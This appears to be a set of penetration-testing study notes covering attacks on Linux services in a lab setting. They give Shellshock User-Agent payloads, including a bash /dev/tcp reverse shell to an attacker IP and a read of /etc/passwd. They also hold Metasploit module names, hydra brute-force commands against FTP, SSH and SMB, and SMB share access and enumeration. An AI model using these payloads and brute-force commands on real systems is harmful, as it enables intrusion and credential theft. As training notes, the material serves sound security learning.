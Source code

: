 ## Overview of Linux
- An open-source OS comprised of a linux kernel (developed by Linus torvalds) and a GNU toolkit (a collection of software and utilities developed by Richard Stallman)
- commonly referred to as GNU/Linux
- various distributions exist for various uses (distros have the same OS but diff desktop envs)
- Most used for servers

Egs:
Ubuntu -> general use
Kali -> security research (debian based)
Debian -> random stuff servers etc

Common Services:
- Apache Web server -p80/443  --> webserver like MIS,Nginx etc.  (443 if ssl configured)
- SSH -p22  --> succeser to telnet
- FTP -p21 --> usually exists with a webserver to transfer files
- SAMBA -p445  --> SMBs implemented for linux (for shares etc)

# Exploiting linux vulns

## Shellshock CVE-2014-6271
- Bash vuln most prevalent in past years
- involves apache and bash
- Family of vulns that affect bash aft ver 1.3 to allow RCE to obtain a bashshell

- Attacker runs a CGI script or .sh script on the target apache server to show output on the web interface

About bash:
- bash is a nix shell part of GNU and default for most linux distros

demo:
Run nmap to see if cgi used by server is vuln to shellshock
```bash
nmap -sV <ip> --script=http-shellshock --script-args="http-shellshock.url=/gettime.cgi"
```

Replace user agent header of get request used by the cgi with this (spacing impt):

User-agent:  () {  :;  }; echo; echo; /bin/bash -c 'cat /etc/passwd'

- Res given by server will be the executed code (gives a list of all user acts from above code)

Reverse shell:
- On attackers system:
	nc -lvnp 1234

- In burpsuite edit the CGI get request 
User-agent:  () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/(attackersIP)/1234 0>&1'

- -i>& redirects input from attacker to server
- 0>&1 redirects output to the listener on attacker machine

Check the linux distro used:
```bash
cat etc/*issue*

#kernal information
uname -a
```

MSF method for shellshock:
```msfconsole
#auxiliary module
use auxiliary/scanner/http/apache_mod_cgi_bash_env

#exploit
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set targeturi /gettime.cgi

```

### FTP exploit
- Default TCP -p21
- Use to transfer files etc very common
- Sometime anonymous access is allowed (rare)
- Exploit a inherent vuln in FTP version or BF the credentials (Common)

Demo:
Exploits ProFTPD 1.3.5a
- Check if anonymous access enabled
	- Manually by keying `ftp 192.92.66.3` then keying anonymous and enter no password
	- nmap script (use below to find available scripts)
	`ls -al /usr/share/nmap/scripts/ | grep ftp-*`
	
-  bruteforce (set threads to 4 so service overload and go down)
	`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.93.66.3 -t 4 ftp`

- searchsploit proFTPD

### SSH exploit
- Default TCP -p22
- remote admin protocol (used everywhere all the time)
- Auth methods
	- Username/password
	- Key based auth (use of keypair) -->unlikely unless private key is found
		- public key-> on the server 
		- private key -> with person connecting to the server, only 1 guy 

Demo:
OpenSSH has no inherent vulns
- bruteforce
	`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.93.66.3 -t 4 ssh`
	or use msfconsole ssh_login
- ssh username@`ipadr`
	enter the password etc

### Samba exploit
- smb (server message block) a network file sharing protocol share files/peripherals in a local network (LAN)
- Default TCP -p445, originally -p139 ran on top of NetBIOS (Common to have both at the same time for compatibility)

Demo:
Smb bruteforce
`hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.93.66.3 -t 4 smb`

Smb enumeration
`smbmap -H 192.56.47.3 -u admin -p password1`

Access SMB
List out all shares
`smbclient -L 192.56.47.3 -U admin`

Choose specific share
`smbclient //192.56.47.3/shawn -U admin`
`smbclient //192.56.47.3/admin -U admin`

Enter password and use like ftp
`get flag`
`get flag.tar.gzip`
`tar xzf flag.tar.gzip `

Enumerate as much info from machine (checks for nullshare if cred blank)
`enum4linux -a 192.56.47.3
`enum4linux -a -u admin -p password1 192.56.47.3`


# Linux Priv escalation
